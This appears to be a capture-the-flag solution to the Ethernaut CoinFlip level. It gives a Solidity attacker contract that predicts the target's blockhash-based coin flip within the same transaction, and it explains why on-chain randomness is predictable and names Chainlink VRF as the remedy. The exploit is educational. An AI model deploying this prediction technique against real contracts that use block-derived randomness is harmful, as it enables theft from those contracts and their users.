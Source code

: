 ```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.0.0/contracts/math/SafeMath.sol";

interface ICoinFlip {
  function flip(bool _guess) external returns (bool);
}

contract CoinFlipRig {
  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;

  }

  function flipGuess(address _targetAddress) public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    bool guess = ICoinFlip(_targetAddress).flip(side);
    if (guess) {
      consecutiveWins++;
    } else {
      consecutiveWins = 0;
    }
  }
}
```

We cannot generate a random number in blockchain itself using the different block parameters as they can be seen by everyone on what it is going to be. To hack the CoinFlip contract we use the CoinFlipRig contract which has similar implementation to CoinFlip as block.number will be same in the same transaction so we can use the same implementation logic to guess the coinFlip side and feed into the flip function of the CoinFlip contract. We have to call the flip function from the contract 10 times in the different transaction as there is a if condition checking if it the same blockhash as the previous one, so the flip method should be called 10 times. So, as we cannot truely generate the random number within the blockchain so we have to use the external source for example Chainlink VRF which generates the random number outof the blockchain and provide the random number to our contract in the form of callback.